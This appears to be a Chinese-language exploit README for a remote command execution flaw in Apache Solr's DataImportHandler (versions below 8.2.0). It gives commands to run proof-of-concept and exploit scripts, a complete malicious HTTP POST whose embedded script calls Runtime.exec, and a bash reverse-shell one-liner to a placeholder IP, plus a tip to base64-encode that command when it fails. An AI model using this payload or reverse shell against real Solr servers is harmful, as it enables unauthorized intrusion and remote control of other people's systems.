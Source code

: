 ## 漏洞概述

此次漏洞出现在Apache Solr的DataImportHandler，该模块是一个可选但常用的模块，用于从数据库和其他源中提取数据。

它具有一个功能，其中所有的DIH配置都可以通过外部请求的dataConfig参数来设置。

由于DIH配置可以包含脚本，因此攻击者可以通过构造危险的请求，从而造成远程命令执行

## 影响范围

```http
Solr < 8.2.0
```

## POC

```bash
python poc.py
```

## EXP

方法一

```bash
python3 exp.py <url>
```

方法二

访问`http://ip:8983/`Apache solr的管理页面，无需登录（默认未开启鉴权认证）

```http
POST /solr/tika/dataimport HTTP/1.1
Host: solr.com:8983
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://solr.com:8983/solr/
Content-type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 585
Connection: close

command=full-import&verbose=false&clean=false&commit=false&debug=true&core=tika&name=dataimport&dataConfig=
<dataConfig>
  <dataSource type="URLDataSource"/>
  <script><![CDATA[
          function poc(){ java.lang.Runtime.getRuntime().exec("echo '666' > ./666.txt");
          }
  ]]></script>
  <document>
    <entity name="stackoverflow"
            url="https://stackoverflow.com/feeds/tag/solr"
            processor="XPathEntityProcessor"
            forEach="/feed"
            transformer="script:poc" />
  </document>
</dataConfig>
```

```bash
bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1  
```

如直接如上写入反弹无反应，需要base64加密写才能反弹一个shell

## 漏洞分析

https://xz.aliyun.com/t/5965#toc-6